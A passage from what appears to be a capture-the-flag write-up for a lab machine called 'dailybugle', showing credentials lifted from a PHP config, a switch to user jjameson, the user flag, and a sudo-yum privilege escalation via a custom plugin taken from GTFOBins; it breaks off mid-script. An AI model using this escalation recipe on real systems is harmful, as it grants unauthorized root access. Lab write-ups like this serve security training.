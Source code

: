 Looks like we have some kind of password
```
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $secret = 'UAMBRWzHO3oFPmVC';
```
## Local privilege escalation
One of the password worked :]
```bash
bash-4.2$ cd home/
bash-4.2$ ls
jjameson
bash-4.2$ su jjameson
Password:
[jjameson@dailybugle home]$
```
### User flag
```bash
[jjameson@dailybugle home]$ ls
jjameson
[jjameson@dailybugle home]$ cd jjameson/
[jjameson@dailybugle ~]$ ls
user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a26xxxxxxxxxxxxxxxd80442e
```
## Privilege escalation
```bash
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
Let's see what [gtfobin](https://gtfobins.github.io) have to say about `yum`
![](https://imgur.com/nbhGJxql.png)


Spawn interactive root shell by loading a custom plugin.
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
```